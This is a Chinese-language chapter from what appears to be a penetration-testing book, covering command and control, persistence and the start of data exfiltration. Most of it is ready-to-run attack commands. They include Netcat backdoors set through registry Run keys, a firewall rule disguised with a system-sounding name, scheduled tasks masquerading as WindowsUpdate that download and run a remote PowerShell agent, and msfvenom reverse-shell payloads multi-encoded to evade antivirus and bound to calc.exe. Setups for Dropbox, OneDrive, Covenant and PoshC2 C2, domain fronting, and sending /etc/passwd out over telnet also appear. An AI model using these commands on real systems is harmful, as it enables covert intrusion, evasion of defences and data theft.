

# 第十三章：命令与控制

现代攻击者并不只是单纯地利用系统或网络后就离开。相反，他们的目标是攻击并入侵有价值的网络，然后尽可能长时间地保持在网络中。**命令与控制**（**C2**）指的是测试人员用来模拟攻击者行为的机制，通过在系统上保持驻留、维持双向通信、使数据能够被提取到测试者的位置，并隐藏攻击证据。

在命令、控制与通信阶段，攻击者依赖于与受损系统的持久连接，以确保他们能够持续控制。

在本章中，您将学习以下内容：

+   持久化的重要性

+   使用 PowerShell Empire、Covenant、PoshC2 和在线文件共享保持持久化

+   执行域前置技术以保持命令与控制

+   使用不同协议进行数据提取的技巧

+   隐藏攻击证据

# 持久化

为了有效，攻击者必须能够维持**交互式持久化**；他们必须与被利用的系统保持一个双向通信通道（交互式），并且在很长时间内不被发现（持久化）。这种连接是必需的，原因如下：

+   网络入侵可能被检测到，受损的系统可能被识别并修补。

+   一些漏洞只能被利用一次，因为漏洞是间歇性的，或者利用时会导致系统崩溃或发生变化，导致漏洞无法继续使用。

+   攻击者可能需要多次回到同一个目标，原因多种多样。

+   目标的实际价值在被入侵时并不总是能立刻确定。

用于保持交互式持久化的工具通常被称为经典术语，如**后门**或**根工具**。然而，自动化恶意软件和人工攻击的长期持久化趋势已经模糊了传统标签的意义，因此，我们将把旨在长时间驻留在受损系统上的恶意软件称为**持久化代理**。

这些持久化代理为攻击者和渗透测试人员执行多种功能，包括：

+   允许上传额外的工具来支持新的攻击，尤其是针对同一网络上其他系统的攻击。

+   促进从受损系统和网络中提取数据。

+   允许攻击者重新连接到受损系统，通常通过加密通道以避免被发现。持久化代理已知能在系统中驻留超过一年。

+   采用反取证技术避免被检测，包括隐藏在目标的文件系统或系统内存中、使用强身份验证以及使用加密。

# 使用持久化代理

传统上，攻击者会在被攻陷的系统上放置一个后门。如果前门提供了合法用户的授权访问，后门应用程序则允许攻击者返回到被利用的系统并访问服务和数据。

不幸的是，经典的后门提供的交互性有限，并且并未设计为在被攻陷的系统上保持长时间的持久性。攻击者社区认为这是一个显著的缺点，因为一旦后门被发现并移除，就需要额外的工作来重复攻陷步骤并再次利用该系统，而这使得系统管理员提前防御网络和资源变得更加困难。

现在，攻击者将重点放在正确使用并且更难检测的持久代理上。我们将首先回顾的工具是久经考验的 Netcat。

## 将 Netcat 用作持久代理

Netcat 是一个支持通过原始 TCP 和 UDP 包从网络连接中读取和写入数据的应用程序。与由 Telnet 或 FTP 等服务组织的包不同，Netcat 的包不附带服务特定的头部或其他通道信息。这简化了通信并提供了几乎通用的通信通道。

Netcat 的最后一个稳定版本由 Hobbit 于 1996 年发布，并且至今仍然保持其高度的实用性；事实上，它常被称为**TCP/IP 瑞士军刀**。Netcat 可以执行许多功能，包括以下内容：

+   端口扫描

+   横幅抓取以识别服务

+   端口重定向和代理

+   文件传输和聊天功能，包括数据取证和远程备份支持

+   在被攻陷的系统上创建后门或交互式持久代理

在这一部分，我们将重点介绍如何使用 Netcat 在被攻击的系统上创建一个持久化的 shell。尽管以下示例使用 Windows 作为目标平台，但在基于 Unix 的平台上使用时，它的功能是相同的。还应该注意的是，大多数旧版 Unix 平台将 Netcat 作为操作系统的一部分。

在*图 13.1*所示的示例中，我们将保留可执行文件的名称 `nc.exe`；然而，在使用之前通常会将其重命名以减少被检测的风险。即使重命名，它通常也会被杀毒软件识别；许多攻击者会修改或删除 Netcat 源代码中不需要的部分，并在使用前重新编译。这样的修改可以改变杀毒软件用来识别 Netcat 应用程序的特定签名，使其对杀毒软件来说不可见：

1.  Netcat 存储在 Kali 的 `/usr/share/windows-binaries` 仓库中。要将其上传到被攻陷的系统，可以在 Meterpreter 中输入以下命令：

    ```
    meterpreter> upload /usr/share/windows-binaries/nc.exe C:\WINDOWS\system32 
    ```

    执行前述命令的过程如*图 13.1*所示：

    

    图 13.1：将 Netcat 上传到目标

    你不必专门将其放置在`system32`文件夹中；然而，由于该文件夹中包含大量文件和多种类型文件，这是在被攻陷系统中隐藏文件的最佳位置。

    在对一个客户进行渗透测试时，我们发现一台服务器上存在六个独立的 Netcat 实例。两名系统管理员分别安装了 Netcat 两次以支持网络管理；另外四个实例是外部攻击者安装的，在渗透测试之前未被发现。因此，务必检查目标系统中是否已经安装了 Netcat！

    如果没有 Meterpreter 连接，可以使用**简单文件传输协议**（**TFTP**）传输文件。

1.  接下来，配置注册表以便在系统启动时启动 Netcat，并确保它监听`8888`端口（或任何其他未被占用的端口），使用以下命令：

    ```
    meterpreter> reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 8888 -e cmd.exe' 
    ```

1.  使用以下`queryval`命令确认注册表中的更改是否成功实施：

    ```
    meterpreter> reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc 
    ```

1.  使用`netsh`命令，在本地防火墙上打开端口，确保被攻陷的系统能够接受来自 Netcat 的远程连接。了解目标的操作系统至关重要。`netsh advfirewall firewall`命令行上下文适用于 Windows 10、Windows Server 2008 及之后版本；`netsh firewall`命令适用于早期版本操作系统。

1.  要将端口添加到本地 Windows 防火墙，请在 Meterpreter 提示符下输入`shell`命令，然后使用适当的命令输入`rule`。命名`rule`时，可以使用类似`svchostpassthrough`的名称，表示此`rule`对系统的正常运行非常重要。

    示例命令如下所示：

    ```
    C:\Windows\system32>netsh advfirewall firewall add rule name="svchostpassthrough" dir=in action=allow protocol=TCP localport=8888 
    ```

1.  使用以下命令确认更改是否成功实施：

    ```
    C:\windows\system32>netsh advfirewall firewall show rule name="svchostpassthrough" 
    ```

    执行前述命令的过程如*图 13.2*所示：

    

    图 13.2：添加防火墙规则以允许自定义端口

1.  确认端口规则后，确保重启选项正常工作，如下所示：

    +   从 Meterpreter 提示符输入以下命令：

        ```
        meterpreter> reboot 
        ```

    +   从交互式 Windows shell 输入以下命令：

        ```
        C:\windows\system32> shutdown /r /t 15 
        ```

1.  要远程访问被攻陷的系统，请在终端输入`nc`，指定连接的详细程度（`-v`报告基本信息，`-vv`报告更多信息），然后输入目标的 IP 地址和端口号，如*图 13.3*所示：

    图 13.3：通过 Netcat 成功连接到持久后门

    不幸的是，使用 Netcat 存在一些局限性。传输的数据没有认证或加密，而且几乎所有的防病毒软件都会检测到它。

1.  可以使用`cryptcat`解决缺乏加密的问题，它是 Netcat 的一个变体，使用 Twofish 加密来保护在受害主机与攻击者之间传输的数据。Twofish 加密是由 Bruce Schneider 开发的高级对称块密码，它为加密数据提供了合理强大的保护。

    要使用`cryptcat`，请确保有一个监听器已准备好，并且已使用以下命令配置了一个强密码：

    ```
    kali@kali:~# cryptcat -k password -l -p 444 
    ```

1.  接下来，根据目标操作系统上传`cryptcat`（如果是 Windows，则上传可在[`github.com/pprugger/Cryptcat-1.3.0-Win-10-Release`](https://github.com/pprugger/Cryptcat-1.3.0-Win-10-Release)获取的 Windows 二进制文件）到被攻陷系统，并使用以下命令配置它连接到监听器的 IP 地址：

    ```
    cryptcat -k password <listener IP address> 444 
    ```

不幸的是，Netcat 及其变体仍然能被大多数防病毒应用程序检测到。然而，如果目标是 Linux 系统，该工具会预先安装，渗透测试人员可以利用它们打开端口并运行后门。通过使用十六进制编辑器修改 Netcat 的源代码，可以使 Netcat 变得不可检测。

这将有助于避免触发防病毒程序的签名匹配动作，但这可能是一个漫长的试错过程。更有效的方法是利用 Empire 的持久性机制。

## 使用 schtasks 配置持久任务

**Windows 任务计划程序** (`schtasks`) 是在 Windows XP 和 2003 中作为`at.exe`的替代品引入的。然而，`at.exe`在最新版本的 Windows 中已被废弃。在本节中，我们将使用计划任务来维持对被攻陷系统的持久访问。

攻击者可以在被攻陷的系统上创建一个计划任务，从攻击者的机器运行 Empire 代理有效载荷，并提供后门访问。`schtasks`可以直接从命令提示符中安排，如*图 13.4*所示：

图 13.4：在目标上创建计划任务以保持持久性

以下是攻击者可以利用的典型计划任务场景，用于保持对系统的持久访问：

+   要在用户登录过程中启动 Empire PowerShell 代理，请从命令行运行以下命令：

    ```
    schtasks /create /tn WindowsUpdate /tr " C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('http://10.10.10.12:90/agent.ps1'))'" /sc onlogon /ru System 
    ```

+   同样，为了在系统启动时启动代理，运行以下命令：

    ```
    schtasks /create /tn WindowsUpdate /tr  "'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.12:90/agent.ps1'))''" /sc onstart 
    ```

+   以下命令将在系统空闲时设置启动代理：

    ```
    schtasks /create /tn WindowsUpdate /tr  "'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.12:90/agent.ps1'))''" /sc onidle /i 10 
    ```

攻击者将确保监听器始终运行并保持连接开放。为了使其在网络中合法化，服务器需要配置一个有效的 SSL 证书并运行 HTTPS，以避免触发内部安全功能（如防火墙、IPS 或代理）的警报。

使用 PowerShell Empire 工具模块`persistence/elevated/schtasks`，攻击者可以通过单行命令执行相同的任务，如*图 13.5*所示：


图 13.5：在目标上创建计划任务以保持持久性

现在我们已经学会了如何利用计划任务来保持对目标的持久性，接下来我们将探讨 Metasploit 的后期利用模块。

## 使用 Metasploit 框架维持持久性

Metasploit 的 Meterpreter 包含多个支持在被攻破系统上保持持久性的脚本。我们将研究用于植入后门的后期利用模块。

### 使用后期利用持久化模块

在系统被利用并且`migrate`命令将初始 Shell 转移到更安全的服务后，攻击者可以从 Meterpreter 提示符下调用`windows/manage/persistence_exe`脚本。

在*图 13.6*所示的示例中，我们可以选择使用`REXENAME`和`REXEPATH`选项，这将在用户登录目标系统时启动持久化。

成功植入后门后，系统启动时将自动运行，执行我们设置的文件，并使用特定的 IP 地址和端口。

图 13.6：使用 Metasploit 的后期利用模块进行持久化植入后门

请注意，我们已经任意选择了一个端口供`persistence`使用；攻击者必须验证本地防火墙设置，确保该端口已开放，或者使用`reg`命令打开该端口。与大多数 Metasploit 模块一样，只要端口未被占用，任何端口都可以被选择。

后期利用模块的`persistence_exe`脚本将在临时目录中放置一个可执行文件。该脚本还将该文件添加到注册表的本地自动运行部分。由于后期利用模块`persistence_exe`没有认证，任何人都可以利用它访问被攻破的系统，因此在发现或渗透测试完成后，应该尽快将其从系统中移除。要移除该脚本，请确认资源文件的位置以便清理，然后执行以下资源命令：

```
meterpreter>run multi_console_command -rc /root/.msf4/logs/persistence/<Location>.rc 
```

## 使用 Metasploit 创建独立持久性代理

Metasploit 框架可以用来创建一个独立的可执行文件，使其能够在被攻破的系统上持久存在，并允许交互式通信。独立包的优势在于，它可以提前准备和测试，以确保连接性，并进行编码以绕过本地的杀毒软件：

1.  要制作一个简单的独立代理，可以使用`msfvenom`。在*图 13.7*所示的示例中，代理配置为使用`reverse_tcp`外壳，将连接到攻击者 IP 的本地主机端口`443`：

    ```
    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -e x86/shikata_ga_nai -i 5 -f exe -o attack1.exe 
    ```

    名为`attack.exe`的代理将使用一个 Win32 可执行模板：

    

    图 13.7：创建一个后门利用程序，通过特定端口连接回 Kali Linux

    该文件使用`x86/shikata_ga_nai`编码器对`attack1.exe`代理进行五次编码。每次重新编码后，检测变得更加困难。然而，可执行文件的大小也会增加。

    我们可以通过使用`-b x64/other`在`msfvenom`中配置编码模式，以避免特定字符。例如，在编码持久性代理时应避免以下字符，因为它们可能导致攻击被发现和失败：

    +   `\x00`：表示 0 字节地址

    +   `\xa0`：表示换行

    +   `\xad`：表示换行符

1.  要创建多重编码的有效负载，请使用以下命令：

    ```
    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -e x86/shikata_ga_nai -i 8 raw | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/bloxor -i 9 -f exe -o multiencoded.exe 
    ```

1.  你还可以将`msfvenom`编码到现有的可执行文件中，修改后的可执行文件和持久性代理都将正常工作。要将持久性代理绑定到可执行文件（如计算器`calc.exe`），首先在 Kali Linux 中复制适当的`calc.exe`文件。你可以通过 Meterpreter 从现有会话中下载它，运行`meterpreter > download c:\\windows\\system32\\calc.exe`。

1.  下载文件后，运行以下命令：

    ```
    msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -x /root/calc.exe -k -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -a x86 --platform windows -e x86/bloxor -i 9 -f exe -o calc.exe 
    ```

1.  可以将代理放置在目标系统上，并重命名为`calc.exe`（如果访问被拒绝，可以将文件放在桌面上），然后执行。

不幸的是，几乎所有 Metasploit 编码的可执行文件都可能被客户端防病毒软件或 EDR 软件检测到。这归因于渗透测试人员将加密的有效负载提交到 VirusTotal 等网站（[www.virustotal.com](http://www.virustotal.com)）。然而，你可以创建一个可执行文件，然后使用 Veil-Evasion 进行加密，具体描述见*第十章*，*利用*。

## 使用在线文件存储云服务来维持持久性

允许与云服务共享文件的每个组织可能会使用 Dropbox 或 OneDrive。攻击者可以利用这些文件存储服务在受损系统上维持持久性。

在本节中，我们将重点介绍在受害者系统上使用这些文件存储云服务，并通过使用 Empire PowerShell 工具来维持持久性，以运行 C2，而无需透露攻击者后端 IP 地址。

### Dropbox

对于使用 Dropbox 的公司，此监听器可作为高度可靠的 C2 通道。我们的 PowerShell Empire 工具中预加载了`dbx`后渗透模块，利用 Dropbox 基础设施。代理与 Dropbox 通信，允许其用作 C2 中心。

按照以下步骤设置 Dropbox 分段器：

1.  创建一个 Dropbox 账户。

1.  前往 Dropbox 开发者网站的我的应用([`www.dropbox.com/developers`](https://www.dropbox.com/developers))页面。

1.  进入**应用控制台**，点击**创建应用**。

1.  选择一个**Scoped access New** API。

1.  将需要的访问类型设置为**完全访问 Dropbox – 可访问用户 Dropbox 中所有文件和文件夹**。

1.  输入应用程序的名称，例如，`KaliC2C`，点击**创建应用**，并勾选同意条款和条件。

1.  应用程序创建后，Dropbox 应将我们带到设置页面。在生成密钥之前，您需要转到**权限**选项卡，并确保通过选中**files.metadata.read**、**files.metadata.write**、**files.content.write**和**files.content.read**来设置写入权限。

1.  现在我们已经准备好生成令牌。如果你在前一步骤的**权限**选项卡中，点击**设置**选项卡。在**OAuth 2**部分和**生成的访问令牌**标题下，点击**生成**，你应该看到 Dropbox 正在创建一个新的令牌，如 *图 13.8* 所示：

    图 13.8：生成 Dropbox 访问令牌

1.  您现在可以通过运行以下命令在我们的 Empire 工具上使用生成的访问令牌生成有效载荷：

    ```
    > listeners
    > uselistener dbx
    > set apitoken <yourapitoken>
    > usestager multi/launcher dropbox
    > execute 
    ```

    输出应如此显示：

    

    图 13.9：在 PowerShell Empire 中成功创建 Dropbox 监听器

    如果 API 令牌正确并且一切正常，Dropbox 账户现在应显示名为 `Empire` 的文件夹，其中包含名为 `results`、`staging` 和 `taskings` 的三个子文件夹，如 *图 13.10* 所示：

    

    图 13.10：在 Dropbox 内生成的文件夹

1.  一旦监听器启动运行，攻击者可以利用多种方法传递有效载荷，例如，通过从现有 Meterpreter 会话中运行，使用社会工程学，或创建一个定期任务以在系统启动时报告。

攻击者可以利用任何免费的文件托管服务来存储有效载荷，并让受害机下载并执行代理程序。成功的代理程序将向 Empire 报告，如 *图 13.11* 所示：


图 13.11：使用 Dropbox API 成功与我们的监听器进行交互

### Microsoft OneDrive

OneDrive 是另一个流行的文件共享服务，类似于 Dropbox。在 Empire 的最新版本中，您应该能够看到一个额外的预构建监听器 `onedrive`，如 *图 13.12* 所示：


图 13.12：PowerShell Empire OneDrive 监听器选项

设置 `onedrive` C2C 如下所示：

1.  创建一个 Microsoft 开发者账户。攻击者可以利用 Microsoft 提供的带有积分的免费账户登录 Azure 门户 ([`portal.azure.com/#blade/Microsoft_AAD_RegisteredApps/ApplicationsListBlade`](https://portal.azure.com/#blade/Microsoft_AAD_RegisteredApps/ApplicationsListBlade))。

1.  要注册一个新应用程序，点击 **New Registration**，输入你的名称，并选择 **Accounts in any organizational directory (Any Azure AD directory - Multitenant) and personal Microsoft accounts (e.g. Skype, Xbox)**。然后，输入 `https://login.live.com/oauth20_desktop.srf` 作为重定向 URI，这样 PowerShell Empire 就可以使用离线桌面模块进行认证，如*图 13.13*所示。最后，点击 **Register**：

    图 13.13：在 Azure 中注册 KaliC2C 进行离线认证

1.  一旦创建了应用程序，攻击者应该能够看到新创建的应用程序 ID，如下图所示：

    图 13.14：在 Azure 门户中生成 Client ID

1.  现在我们有了 `ClientID`，接下来需要创建 `ClientSecret`。在同一页面中的 **Manage** 部分下，导航到 **Certificates & Sections**，然后在 **Client secrets** 下点击 **New client secret**。这时会弹出另一个窗口，输入任何描述，默认情况下，过期时间为 6 个月，最后点击 **Add**。这应该会生成我们的 Client Secret ID，如*图 13.15*所示：

    图 13.15：为 ClientID 创建 Secret ID

1.  现在，我们准备启动 Empire 并设置我们的监听器。将 `ClientID` 设置为*第 3 步*中的应用程序 ID，将 `ClientSecret` 设置为*第 4 步*中的 Secret ID 值，并执行监听器，如*图 13.16*所示：

    图 13.16：使用我们创建的 ClientID 和 SecretValue 配置 PowerShell Empire

1.  可以在浏览器中打开 URL 以生成认证代码。测试者应登录到应用程序并会提示授权访问 OneDrive 文件。点击 **Yes** 后，你应该能看到 URL 中生成的代码，如*图 13.17*所示：

    图 13.17：浏览器中的认证令牌生成

1.  现在可以使用来自 URL 的代码来设置 Empire 监听器，如下所示：

    图 13.18：设置 AuthCode 并启动 OneDrive 监听器

1.  就像 Dropbox 一样，现在你应该能够在 OneDrive 中看到一个名为 `Empire` 的文件夹，里面有三个子文件夹，分别是 `results`、`staging` 和 `taskings`，并且具有正确的客户端 ID 和认证代码，如下图所示：

    图 13.19：启动监听器后在 OneDrive 中创建的文件夹

1.  现在，你可以通过运行 `usestager multi/launcher` 来准备有效载荷，并将 `listener` 设置为 `onedrive`，然后执行有效载荷。一旦有效载荷在目标上成功执行，它将监听 OneDrive 监听器，如*图 13.20*所示：

    图 13.20：代理通过 OneDrive API 成功报告回 PowerShell Empire

### Covenant

攻击者还可以利用**Covenant C2**框架进行渗透测试操作，以维护对目标环境的访问。该框架是由 SpecterOps 的 Ryan Cobb 编写的，使用.NET 编写，并利用大多数开源功能和插件来在目标上执行不同的利用。要在 Kali Linux 中安装 Covenant C2 框架，需要执行以下步骤：

1.  通过运行`sudo git clone --recurse-submodules https://github.com/cobbr/Covenant`来下载存储库。

1.  由于这些工具严重依赖于.NET 框架，我们将通过运行`sudo wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb`将 Microsoft 包下载到我们的 Kali 中。

1.  下载.deb 文件后，通过运行`sudo dpkg -i packages-microsoft-prod.deb`来安装该软件包。

1.  Covenant 需要.NET 版本 3.1，因此我们将通过运行`sudo apt-get update && sudo apt-get install -y apt-transport-https && sudo apt-get update && sudo apt-get install -y dotnet-sdk-3.1`来运行以下依赖项。

1.  现在我们准备通过将文件夹更改为项目位置来构建应用程序，即`cd Covenant/Covenant`，并运行`sudo dotnet build`和`sudo dotnet run`。

1.  如果未生成任何错误，则攻击者应该能够看到以下屏幕并能够在 localhost 的端口`7443`上访问 Covenant:

    图 13.21: 在 Kali 中使用 dotnet 启动 Covenant

1.  应用程序启动后，在浏览器中可以创建用户名和密码以登录。

1.  类似于 PowerShell Empire，Covenant 为攻击者提供使用侦听器、启动器、模板和任务创建利用有效载荷的选项，其中代理被称为 grunts。下一步是为攻击者创建侦听器，并确保`ConnectAddresses`反映 Kali Linux 的正确 IP 地址，grunts 可以在其中回调:

    图 13.22: 配置 Covenant 回连地址

1.  最后，通过导航到启动器并选择其中任何一个选项来生成利用有效载荷；例如，我们选择了 PowerShell 启动器。工具应该呈现给您以下图表和选项。选择正确的侦听器后，您应该能够生成编码和非编码的有效载荷:

    图 13.23: 在 PowerShell 启动器部分设置正确的侦听器并生成有效载荷

1.  一旦在目标上执行有效载荷，就可以从 Covenant C2 与之进行交互，如*图 13.24*所示:

    图 13.24: 指示受害者连接 Covenant C2

1.  现在我们可以通过在主菜单中导航到**Grunts**并点击**Interact**来与目标交互，执行可以在目标设备上运行的预加载脚本，如*图 13.25*所示：

    图 13.25：使用 Covenant 的 Interact 部分与目标交互

1.  如果有两个或三个测试人员在同一目标上，他们可以通过点击**任务**标签查看所有执行的任务。

Covenant 允许测试人员在渗透测试过程中利用该工具中的所有后期利用和横向移动模块，捕获核心目标或窃取机密数据库文件。

### PoshC2

另一种渗透测试人员也可以利用的 C2 是 PoshC2。它是一个具有代理意识的 C2 框架，非常适合用于后期利用和横向移动。该工具使用 Python3 编写，截至 2021 年 12 月的最新版本为 7.4.0。多年来，该工具经历了显著的改进。

您可以添加自己的模块和工具。默认情况下，PoshC2 安装包含 PowerShell、C#、Python3、C++、DLL 和 Shellcode。注入 PoshC2 的利用负载称为植入物。这些植入物几乎适用于所有操作系统，包括 Windows、*nix 和 OSX。

以下是在 Kali Linux 上成功设置 PoshC2 的步骤：

1.  通过运行 `git clone --recursive`（[`github.com/nettitude/PoshC2`](https://github.com/nettitude/PoshC2)）并执行 `cd PoshC2` 和 `sudo ./Install.sh` 来下载该应用程序。

1.  测试人员可能会收到与 dotnet 相关的错误消息，但这并不会阻止应用程序的运行。

1.  通过运行 `sudo posh-project –n nameoftheproject` 设置一个新项目。

1.  一旦项目设置完成，通过编辑位于 `/var/Poshc2/<nameoftheproject>/configure.yml` 的配置文件来配置 C2 服务器，并将正确的 `PayloadCommsHost` 编辑为正确的 IP 地址或域名。您还可以选择输入域名的前置头（我们将在下一节学习如何使用域名前置）。

1.  最后，通过在终端运行`sudo posh-server`启动 C2 服务器，您应该能够看到如*图 13.26*所示的确认信息，显示所有有效负载及其相关位置详情：

    图 13.26：成功启动 PoshC2 服务器

1.  一旦有效负载在目标上执行，攻击者可以通过在 Kali Linux 终端运行 `sudo posh –u <username>` 连接到 PoshC2 服务器。他们应该能够看到植入物向服务器报告，如*图 13.27*所示。与 Metasploit 类似，渗透测试人员现在可以使用植入物的编号与目标交互：

    图 13.27：目标作为植入物报告给 PoshC2 服务器

尽管大多数防病毒/EDR 软件可以检测到有效载荷，攻击者始终可以利用工具如 `PyFuscator` 对 PowerShell 的有效载荷进行混淆，成功躲避检测，并迅速迁移到合法进程。

# 域名伪装

域名伪装是一种技术，攻击者或红队用来避免检测到他们的 C2 服务器。这是通过利用他人的域名（或者在 HTTPS 的情况下，使用他人的 SSL 证书）来将流量路由到一个应用程序，从而将攻击者的机器隐藏在高度信任的域名背后。

最受欢迎的服务包括亚马逊的 CloudFront、微软的 Azure 和谷歌的 App Engine。相同的域名伪装技术也可以用于企业 Web 邮件中的 C2 和通过 SMTP 协议进行数据外泄。

请注意，谷歌和亚马逊都在 2018 年 4 月实施了防范域名伪装的策略。在本节中，我们将探讨如何使用亚马逊 CloudFront 和微软 Azure 进行 C2，使用两种不同的方法。

## 使用亚马逊 CloudFront 进行 C2

为了提高下载速度，亚马逊提供了一个**内容分发网络**（**CDN**），该网络由全球分布的代理服务器组成，能够缓存媒体和视频等大型内容。亚马逊 CloudFront 是由亚马逊 Web 服务提供的 CDN。创建 CDN 涉及以下步骤：

1.  首先，在 [`aws.amazon.com/`](https://aws.amazon.com/) 上注册一个 AWS 帐户。

1.  登录到你的帐户：[`console.aws.amazon.com/cloudfront/home`](https://console.aws.amazon.com/cloudfront/home)

1.  点击**开始使用**，选择**创建分发**。

1.  填写每个设置的正确详细信息：

    +   **源域名**：攻击者控制的域名。

    +   **源路径**：该值可以设置为根路径`/`。

    +   **源路径 ID**：任何自定义名称，如 demo 或 C2C。

    +   **源 SSL 协议**：默认情况下，`TLS v1.2`、`TLS v1.1` 和 `TLS v1.0` 都已启用。

    +   **源协议策略**：有三个选项：**HTTP**、**HTTPS** 和 **匹配查看者**。我推荐使用**匹配查看者**，它根据查看者请求的协议使用**HTTPS**或**HTTP**。

    +   **允许的 HTTP 方法**：在**默认缓存**行为设置中选择**GET**、**HEAD**、**OPTIONS**、**PUT**、**POST**、**PATCH**、**DELETE**。

    +   确保在**缓存和源请求设置**中选择**使用传统缓存设置**。

    +   确保将**Forward Cookies**设置为**All**。

    +   确保将**查询字符串转发和缓存**设置为**转发所有，基于所有缓存**。

    图 13.28：在 AWS 中启用传统缓存设置并选择正确的选项

1.  现在你已经设置完成，点击**创建分发**。你应该能看到以下界面，域名显示为`<somerandom>.cloudfront.net`：

    图 13.29：成功创建 CloudFront 分发

    通常需要大约 5 分钟或更少的时间来启动分发。

1.  一旦在 AWS 上创建了分发，您就可以定制 PoshC2 代理为攻击做准备。在启动 PoshC2 之前，我们需要确保识别一个可以作为我们恶意服务器前端的易受攻击的域名。

1.  查找可前端的域名可以通过使用各种脚本来实现；在这里，我们将使用在[`github.com/rvrsh3ll/FindFrontableDomains`](https://github.com/rvrsh3ll/FindFrontableDomains)上找到的脚本，并使用其中一个易受攻击的主机来执行攻击。

1.  现在我们开始在 PoshC2 中创建一个新的监听器。第一步是通过运行`posh-project –n domfront`创建一个 PoshC2 项目，然后定位到`/var/poshc2/domfront/config.yml`并编辑配置文件，将`PayLoadCommsHost`修改为易受攻击的主机，将`DomainFrontHeader`修改为您的 AWS 云分发主机名，然后将`BindPort`设置为`80`，如*图 13.30*所示：

    图 13.30：配置 PoshC2 在端口 80 上运行，并与易受攻击的主机一起使用域前端头

    攻击者可以选择在端口`443`上运行 C2。请确保使用诸如 Letsencrypt 之类的服务创建正确的证书，否则 CloudFront CDN 将无法与 C2 服务器建立通信。

1.  一旦我们的 PoshC2 设置完成，攻击者应该能够看到以下内容：

    图 13.31：使用我们创建的 AWS 云分发启动 PoshC2

    在这个例子中，我们将使用`vijayvelu.com`主机将域名请求转发到我们的 C2 服务器。在连接到 Amazon Web Services 之前，应用程序将执行 DNS 查找，将域名解析为网络 IP 地址。请求将直接发送到`vijayvelu.com`主机，并带有我们在 Amazon CloudFront 分发中创建的主机头。

    从 Wireshark 捕获的请求数据包将类似于*图 13.32*：

    

    图 13.32：DomainFrontHost 与我们的托管服务器之间的 TCP 流通信

1.  一旦有效载荷在受害者机器上执行，您应该能够看到植入物报告，而受害者网络中不会有攻击者 IP 地址的任何痕迹。所有流量看起来都像是合法的连接到 AWS 以及所展示的域名：

    图 13.33：成功将利用工具植入目标，并实现域前端攻击

攻击者还可以利用 Metasploit。我们将创建一个利用工具，通过`msfvenom`提供一个 Meterpreter 反向 HTTP shell，使用进行转发的域名以及我们的头注入，如下所示：

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_https lhost=<VULNERABLEHOST> lport=443 httphostheader=< CloudFront address> -e x86/shikata_ga_nai -i 8 raw | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/bloxor -i 9 -f exe -o Domainfront.exe 
```

执行此有效载荷应该会在位于 Amazon CDN 后的 C2 服务器上获取一个反向 Shell。APT29（一个俄罗斯国家级黑客组织）曾积极利用这种技术执行隐蔽攻击：

图 13.34：当在目标系统上使用域前置技术运行漏洞时，反向 Shell 到 Meterpreter

攻击者可能选择利用微软 CDN 服务进行 C2 通信。不幸的是，免费层用户无法使用 CDN 选项，因此用户可能需要选择按需付费选项注册，并创建订阅，然后按照[`docs.microsoft.com/en-us/azure/cdn/cdn-create-endpoint-how-to`](https://docs.microsoft.com/en-us/azure/cdn/cdn-create-endpoint-how-to)上的说明操作。不过，测试人员需要确保 Azure 或 Amazon 背后的域名有有效的 A 记录。对于微软 Azure，你还需要确保 CNAME 指向正确的自定义域名，以确保域名前置功能正常工作。

尽管许多内容提供商容易受到此类攻击，但一些内容提供商，如 Google，似乎已经通过对其云基础设施进行重大改动迅速修复了这一攻击。例如，如果 A 公司的域名使用了亚马逊的域名作为前置，并且额外的主机头指向 B 公司，请求将在 CDN 的第一个节点被丢弃。

类似地，其他提供商正尝试通过要求额外的授权令牌或其他机制来阻止这些前置技术或前置技术。

# 数据外泄

数字数据从任何环境中未经授权的转移被称为数据外泄（或数据挤出）。一旦在被攻陷的系统中维持持久性，可以利用一系列工具从高度安全的环境中外泄数据。

在本节中，我们将探索攻击者用来将文件从内部网络发送到攻击者控制系统的不同方法。

## 使用现有的系统服务（Telnet、RDP 和 VNC）

首先，我们将讨论一些简单的技术，用于在对受感染系统的访问时间有限的情况下快速抓取文件。攻击者可以通过运行`nc -lvp 2323 > Exfilteredfile`来使用 Netcat 打开一个端口，然后从受感染的 Linux 服务器运行`cat /etc/passwd | telnet remoteIP 8000`。

